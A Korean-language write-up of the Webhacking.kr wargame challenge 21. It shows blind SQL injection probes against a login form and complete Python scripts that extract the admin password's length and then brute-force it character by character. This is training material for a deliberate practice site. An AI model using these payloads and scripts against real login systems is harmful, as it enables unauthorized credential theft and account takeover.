 ```yaml
---
title: "Webhacking.kr challenge(old) 21th Write-Up"
tags: [wargame, database]
categories: [Web]
---
```


Webhacking.kr 21 Write-Up
-------------------------

## **문제 분석**

문제에 접속하면 id와 pw가 입력 가능한 창이 있고 대문짝만하게 BLIND SQL Injection이라고 적혀 있습니다. 먼저 Blind SQL Injection을 성공하기 위해서는 조건에 따른 페이지의 차이를 알 필요가 있었습니다. 페이지를 보면 result 부분이 있었는데 로그인 성공 여부에 따라 문구가 출력되는 것을 확인할 수 있었습니다.

![webhacking_kr_21_main](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/webhacking_kr_21_main.png?raw=true)

가장 먼저 로그인을 성공했을 때의 경우를 알고 싶었기에 guest/guest 계정을 사용하여 시도한 결과 login success라는 문구가 출력되었습니다. 이에 따라 guest 계정이 존재하는 것을 알 수 있었기에 참과 거짓을 구분할 방법을 알아내기 위해 아래 두 가지 Query를 시도하였습니다.

- 참일 경우 : ' or 1=1-- -
	- 반환 결과 : wrong password

- 거짓일 경우 : ' or 1=0-- -
	- 반환 결과 : login fail

즉, Query의 결과가 참일 경우 wrong password 라는 문구가 표시되는 것을 통해 SQL Injection의 성공 여부를 판단할 수 있었습니다. 이러한 유형의 문제는 admin의 password가 flag가 되거나 admin 계정으로 로그인에 성공하는 것이 목적이기에 이를 알아내기 위해 아래와 같은 코드를 작성하였습니다.

## **문제 해결**

먼저 admin 계정의 pw 길이를 알아내기 위해 다음과 같이 Python code를 작성하였습니다.

```python
for i in range(51):
    params["pw"] = "'or id='admin' and length(pw)={}-- ".format(i)
    response = req.get(url, cookies=cookies, params=params)
    if ref1 in response.text:
        length = i
        break

print("admin password length is {}".format(length))
```

이때, or 뒤에 id='admin' 조건을 작성하지 않을 경우 guest 계정에 대한 pw 길이도 비교하였기에 위와 같이 code를 수정하였습니다.

* * *

다음으로는 위에서 알아낸 pw 길이를 바탕으로 brute force 공격을 통해 전체 pw를 알아낼 수 있는 code를 작성하였습니다.

```python
for i in range(length+2):
    for j in range(33, 127):
        params["pw"] = "' or id='admin' and ascii(substring(pw, {}, 1))={}-- ".format(i, j)
        response = req.get(url, cookies=cookies, params=params)
        if ref1 in response.text:
            pw += chr(j)
            break

print("admin password is : {}".format(pw))
```

처음 작성한 code의 경우 대소문자를 명확하게 구별할 수 없어서 pw를 구했음에도 문제를 해결할 수 없었습니다. 따라서 ascii 함수를 통해 추출한 값을 비교함으로써 이러한 문제를 해결하였습니다.

최종적으로 사용된 코드는 아래와 같습니다.

```python
#!/usr/bin/python

import requests as req

url = "https://webhacking.kr/challenge/bonus-1/index.php"
cookies = {"PHPSESSID":"22h1kbhc6uk1mhisjb9f5tif6n"}
params = {"id":"admin"}
ref1 = "wrong password"
length = ""
pw = ""

for i in range(51):
    params["pw"] = "'or id='admin' and length(pw)={}-- ".format(i)
    response = req.get(url, cookies=cookies, params=params)
    if ref1 in response.text:
        length = i
        break

print("admin password length is {}".format(length))

for i in range(length+2):
    for j in range(33, 127):
        params["pw"] = "' or id='admin' and ascii(substring(pw, {}, 1))={}-- ".format(i, j)
        response = req.get(url, cookies=cookies, params=params)
        if ref1 in response.text:
            pw += chr(j)
            print(pw)
            break

print("admin password is : {}".format(pw))
```
